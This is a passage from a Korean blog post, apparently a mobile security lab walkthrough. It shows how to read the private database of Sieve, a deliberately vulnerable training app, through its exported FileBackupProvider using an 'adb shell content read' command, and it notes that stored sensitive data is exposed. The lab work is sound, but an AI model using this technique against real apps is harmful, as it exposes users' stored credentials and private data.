2026년부터 트렁크 안정 개발 모델과 일치하고 생태계의 플랫폼 안정성을 보장하기 위해 2분기와 4분기에 AOSP에 소스 코드를 게시합니다. AOSP를 빌드하고 기여하려면 android-latest-release를 사용하세

source.android.com

</a></figure>

 

Sieve 앱의 내부 데이터베이스 파일 경로를 content read 명령어로 확인해보겠습니다.

데이터베이스 파일 경로는 다음과 같습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794655241731"><code class="hljs">/data/data/com.mwr.example.sieve/databases/database.db</code></pre>

 

위 경로를 포함하여 Content URI를 작성하면 다음과 같습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794655413223"><code class="hljs">content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db</code></pre>

 

Content URI를 포함한 adb 명령어는 다음과 같습니다.

<pre class="bash" data-ke-language="bash" data-ke-type="codeblock" id="code_1794655448678"><code class="hljs">adb shell content read --uri content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db</code></pre>

해당 명령어를 터미널에서 실행해보면 (폰트가 깨지긴 했지만...) 저장된 민감 정보가 노출되는 것을 확인할 수 있습니다.

<figure class="imageblock alignCenter" data-ke-mobilestyle="widthOrigin" data-origin-height="95" data-origin-width="1277"></figure>

 


